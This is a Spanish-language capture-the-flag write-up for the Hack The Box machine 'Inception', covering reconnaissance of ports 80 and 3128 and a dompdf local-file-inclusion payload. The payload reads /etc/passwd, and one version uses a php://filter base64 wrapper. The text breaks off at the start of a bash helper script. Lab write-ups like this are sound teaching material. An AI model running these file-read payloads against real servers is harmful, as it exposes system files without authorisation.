 ```yaml
---
layout: single
title: Inception - Hack The Box
excerpt: "Aprendemos a explotar SQUID proxys"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-incpetion/inception1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - SQID proxy
---
```


# 10.10.10.67 Inception

![](/assets/images/htb-incpetion/inception1.png)


--------------------------------------------

### PARTE 1. Reconocimiento

Los puertos abiertos son el 80(http) y el 3128(squid proxy).

En cuanto al puerto 80:
```console
└─$ whatweb http://10.10.10.67
http://10.10.10.67 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.67], Script, Title[Inception]
```
--------------------------------------------

### PARTE 2. Explotacion web

Inspeccionamos la web y no tiene nada (un formulario para enviar un mail pero que no funciona).

![](/assets/images/htb-incpetion/inception2.PNG)

En cuanto a los comentarios en el código fuente:
```
<!--[if lte IE 8]><script src="assets/js/ie/html5shiv.js"></script><![endif]-->
<!--[if lte IE 8]><script src="assets/js/ie/respond.min.js"></script><![endif]-->
<!-- Todo: test dompdf on php 7.x -->
```
No se que es dompdf, pero tiene varios exploits ```searchsploit dompdf```
Existe la ruta /dompdf con un monton de phps.

El primer exploit habla de que hay un LFI en la ruta:
```http://10.10.10.67/dompdf/dompdf.php?input_file=/etc/passwd``` Pero no se lee, aun asi existe. 
Para leerlo se puede usar el wrapper php ```?input_file=php://filter/convert.base64-encode/resource=/etc/passwd```

La cosa esque se visualiza en pdf el base64 (pero hay que filtrarlo porque salen mas cosas propias del 
formato pdf), me hice un script para leerlo de manera sencilla.
```bash
#!/bin/bash

archivo=$1
```